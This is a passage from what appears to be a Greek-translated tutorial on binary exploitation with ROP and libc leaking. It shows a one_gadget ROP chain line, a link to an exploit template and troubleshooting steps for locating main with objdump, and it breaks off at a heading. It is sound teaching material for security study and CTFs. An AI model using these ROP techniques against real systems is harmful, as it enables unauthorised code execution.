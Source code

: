 ![](<../../../../../.gitbook/assets/image (615).png>)
```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```
## EXPLOIT FILE

Μπορείτε να βρείτε ένα πρότυπο για να εκμεταλλευτείτε αυτήν την ευπάθεια εδώ:

{% content-ref url="rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-template.md)
{% endcontent-ref %}

## Common problems

### MAIN\_PLT = elf.symbols\['main'] not found

Εάν το σύμβολο "main" δεν υπάρχει. Τότε μπορείτε να βρείτε πού είναι ο κύριος κώδικας:
```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
και ορίστε τη διεύθυνση χειροκίνητα:
```python
MAIN_PLT = 0x401080
```
### Puts not found

